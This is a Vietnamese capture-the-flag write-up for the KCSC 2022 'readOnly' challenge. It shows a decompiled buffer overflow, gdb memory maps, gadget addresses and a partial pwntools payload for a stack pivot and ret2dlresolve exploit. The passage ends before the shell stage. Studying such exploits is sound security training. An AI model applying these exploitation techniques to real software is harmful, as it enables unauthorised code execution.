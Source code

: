 # Source C

```c
ssize_t vuln()
{
  char buf[48]; // [rsp+0h] [rbp-30h] BYREF

  return read(0, buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

# Ý tưởng

- Đã tham khảo wu a Trí [link](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/2022/KCSC-CTF-2022/readOnly)
- Chall này chỉ có hàm read nên hướng sẽ là ret2dlresolve, nếu địa chỉ là 0x40xxxx thì nhận luôn

- Tổng kết:

  - Stage 1: Stack pivot
  - Stage 2.1: Ret2dlresolve - Create structures
  - Stage 2.2: Ret2dlresolve - Get shell

# Khai thác

## Stack pivot

- chúng ta cần các gadget là `leave ; ret` (hoặc `pop rsp`), `pop rbp, rdi, rsp` và địa chỉ có quyền ghi được

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x00000000401000 0x00000000000000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000401000 0x00000000402000 0x00000000001000 r-x /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000402000 0x00000000403000 0x00000000002000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000403000 0x00000000404000 0x00000000002000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000404000 0x00000000405000 0x00000000003000 rw- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x007f749fb41000 0x007f749fb44000 0x00000000000000 rw-

gef➤  x/50xg 0x00000000404000
0x404000:       0x0000000000403e20      0x00007f749fdb32e0
0x404010:       0x00007f749fd8dd30      0x00007f749fc2e5b0
0x404020 <read@got.plt>:        0x00007f749fc58980      0x00007f749fbc5670
0x404030:       0x0000000000000000      0x0000000000000000
0x404040 <stdout@@GLIBC_2.2.5>: 0x00007f749fd5e780      0x0000000000000000
0x404050 <stdin@@GLIBC_2.2.5>:  0x00007f749fd5daa0      0x0000000000000000
0x404060 <stderr@@GLIBC_2.2.5>: 0x00007f749fd5e6a0      0x0000000000000000
0x404070:       0x0000000000000000      0x0000000000000000
0x404080:       0x0000000000000000      0x0000000000000000
0x404090:       0x0000000000000000      0x0000000000000000
0x4040a0:       0x0000000000000000      0x0000000000000000
```

- ta lấy bao nhiêu cũng được mà nên xa xa một xíu, nên `base + 0xa00`.

```python
pop_rdi = 0x0000000000401293
pop_rsi_r15 = 0x0000000000401291
leave_ret = 0x0000000000401208
rw_section = 0x00000000404a00

payload = b'A'*(56)
payload += flat(
#     rw_section,
    pop_rsi_r15,
    rw_section,
    0,
    exe.plt['read'],
    leave_ret
    )
payload = payload.ljust(0x100, b'P')
p.send(payload)
```

- mục đích gọi lại read là để ta có thể đưa các struct vào vùng rw để thực thi

# Create structures

- đầu tiên ta sẽ chọn ra địa chỉ cho SYMTAB_addr, JMPREL_addr và STRTAB_addr (nằm trong vùng ghi được vừa tìm được ở bước 1) với điều kiện là `symbol_number`, `reloc_arg`, `st_name` là số nguyên

```
    <Address of Elf64_Sym> = <SYMTAB> + <symbol_number> * 24
<=> <symbol_number> = (<Address of Elf64_Sym> - <SYMTAB>)/24

    <Address of Elf64_Rela> = <JMPREL> + <reloc_arg> * 24
<=> <reloc_arg> = (<Address of Elf64_Rela> - <JMPREL>)/24
    <Address of Elf64_>
    st_name = STRTAB_addr - STRTAB
```

- Với các `SYSTAB, JMPREL, STRTAB` có trong file, ta sẽ tìm [ở đây]()

```
JMPREL =>   0x00000000004005b8 - 0x0000000000400600 is .rela.plt
SYSTAB =>   0x00000000004003d0 - 0x00000000004004a8 is .dynsym
STRTAB =>   0x00000000004004a8 - 0x0000000000400507 is .dynstr
dlsolve=>    0x0000000000401020 - 0x0000000000401060 is .plt
```

- và

```python
JMPREL = 0x4005b8
SYMTAB = 0x4003d0
STRTAB = 0x4004a8
dlresolve = 0x401020
```

- và tìm các addr theo điều kiện ở trên, và địa chỉ các addr phải ở trong vùng ghi được (chưa rõ có cần gần nhau không)
- tình hình là bây giờ chúng ta sẽ chọn addr, tuy nhiên base của ta chọn là `0x404a00` và payload được nhập là 0x100 kí tự nghĩa là ta sẽ chọn các số sao cho trong khoảng 0xa00 đến 0xb00
- Kết quả của a Trí tính được